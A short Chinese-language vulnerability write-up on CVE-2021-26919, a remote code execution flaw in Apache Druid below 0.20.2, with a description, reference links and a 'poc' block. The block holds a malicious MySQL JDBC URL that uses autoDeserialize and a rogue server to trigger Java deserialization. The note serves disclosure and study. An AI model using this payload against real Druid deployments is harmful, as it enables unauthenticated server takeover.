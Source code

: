 # Apache Druid 远程代码执行漏洞 CVE-2021-26919

# Apache Druid 远程代码执行漏洞 CVE-2021-26919

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。2021年3月30日，Apache Druid官方发布安全更新，修复了 CVE-2021-26919 Apache Druid 远程代码执行漏洞。由于Apache Druid 默认情况下缺乏授权认证，攻击者可直接构造恶意请求执行任意代码，控制服务器。

参考链接：

* http://m0d9.me/2021/04/21/Apache-Druid-CVE-2021-26919-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
* https://help.aliyun.com/noticelist/articleid/1060822985.html

## 漏洞影响

```
Apache Druid < 0.20.2
```

## 漏洞复现

jdbc触发点：https://druid.apache.org/docs/0.19.0/development/extensions-core/druid-lookups.html#polling-lookup

poc:

```
url = "jdbc:mysql://localhost:3307/?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&maxAllowedPacket=65535"
user ="cb1"
password="password"
```



